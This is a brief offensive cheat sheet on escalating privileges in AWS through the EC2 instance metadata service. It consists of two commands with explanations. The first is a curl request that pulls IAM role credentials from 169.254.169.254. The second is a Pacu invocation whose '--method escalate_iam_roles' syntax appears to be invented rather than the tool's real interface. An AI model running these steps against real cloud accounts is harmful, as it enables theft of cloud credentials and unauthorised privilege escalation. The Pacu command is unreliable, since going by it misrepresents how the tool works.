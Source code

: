 # Privilege escalation through EC2 metadata

### Method 1
```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<role_name>
```
* `curl`: The command-line tool used to perform the HTTP request.
* `http://169.254.169.254/latest/meta-data/iam/security-credentials/<role_name>`: The URL endpoint of the metadata service to retrieve the security credentials for the specified IAM role. Replace <role_name> with the name of the IAM role.


### Method 2
```bash
python3 pacu.py --method escalate_iam_roles --profile <aws_profile> --regions <aws_region> --instances <instance_id>
```
* In this command, the [pacu.py script](https://github.com/RhinoSecurityLabs/pacu) is being executed with the `escalate_iam_roles` method, which is specifically designed to escalate privileges associated with IAM roles.
* `--profile` option specifies the AWS profile to use for authentication.
* `--regions` option specifies the AWS regions to target. 
* `--instances` option is used to specify the target EC2 instance ID(s) on which the IAM roles will be escalated.






















































